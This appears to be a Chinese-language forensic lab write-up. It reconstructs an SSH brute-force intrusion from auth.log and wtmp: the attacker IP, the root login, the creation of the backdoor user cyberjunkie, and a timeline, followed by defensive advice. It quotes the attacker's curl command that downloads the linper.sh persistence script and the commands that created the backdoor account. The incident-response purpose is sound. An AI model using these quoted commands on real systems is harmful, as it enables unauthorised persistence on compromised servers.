brutus
Bruteus - 日志分析与攻击溯源
攻击者视角
攻击者使用 IP 65.2.161.68 对目标服务器进行 SSH 暴力破解。攻击成功后创建后门用户 cyberjunkie（UID 1002），设置密码并修改账户信息，随后下载 linper.sh 后门脚本建立持久化据点。攻击者从爆破失败到获取 root 权限，再到建立后门，全程仅用几分钟。
防御者视角
日志分析工具
more auth.log：查看文本日志last -f wtmp：查看二进制登录记录utmp.py：解析 wtmp 二进制文件
步骤一：获取日志文件并解压
下载日志文件：

解压：

原始解压失败，使用 7z 解压：

步骤二：分析 auth.log 发现异常 IP
使用 more 命令查看 auth.log，发现异常 IP 65.2.161.68 出现频率异常：

分析：该 IP 实施了暴力攻击。
步骤三：检索攻击者入侵路线
使用 vim auth.log 配合 / 检索 IP 地址快速查找：

分析：该语句意味着攻击者已获得 root 权限。
步骤四：分析 wtmp 登录记录
使用 last 命令查看 wtmp 文件：

last 无法直接打开，使用 utmp.py 工具解析：

结合 auth.log 交叉查看：

关键发现：同一秒（Mar 6 06:31:41）来自 IP 65.2.161.68 的四条记录：
- 三次
Failed password for root（并行爆破） - 一次
Connection closed（触发防爆破机制）
步骤五：确认入侵成功
auth.log 中攻击者正式进入系统的日志：

入侵时间线：
- 06:32:01：连接被切断
- 06:32:44：
Accepted password for root- 攻击成功获取 root 权限 - 06:33:01 - 06:34:01：CRON 任务执行（confluence 服务）
- 06:34:18：
groupadd/useradd创建后门用户cyberjunkie(UID 1002) - 06:34:26：
passwd设置后门账号密码 - 06:34:31：
chfn修改账户信息 - 06:35:01：定时任务执行（权限维持）
步骤六：确认关键时间点
从 wtmp 确认首次登录：2024-03-06 06:32:45，会话号 37：

新建账户 cyberjunkie。
会话关闭时间：2024-03-06 06:37:24：

步骤七：确认后门部署
使用 sudo 权限下载后门脚本：

1 | /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh |
关键日志解读
暴力攻击阶段：
1 | Failed password for root from 65.2.161.68 port 46852 ssh2 |
[preauth]表示认证前连接就被掐断，服务器触发了防爆破机制
入侵成功阶段：
1 | Accepted password for root from 65.2.161.68 port 53184 ssh2 |
后门创建阶段：
1 | groupadd -g 1002 cyberjunkie |
后门部署阶段：
1 | /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh |
wtmp 关键时间点
- 首次登录：2024-03-06 06:32:45，会话号 37
- 会话关闭：2024-03-06 06:37:24
防御建议
- SSH 防爆破：配置
MaxAuthTries限制失败次数 - 账户监控：关注
useradd/groupadd/chfn等敏感操作日志 - 网络隔离：限制 SSH 来源 IP、使用 Fail2Ban 等防护工具
- 后门排查：检查定时任务（cron）、异常脚本、SSH
authorized_keys - 日志审计：定期分析 auth.log 中的异常 IP 和频繁登录失败记录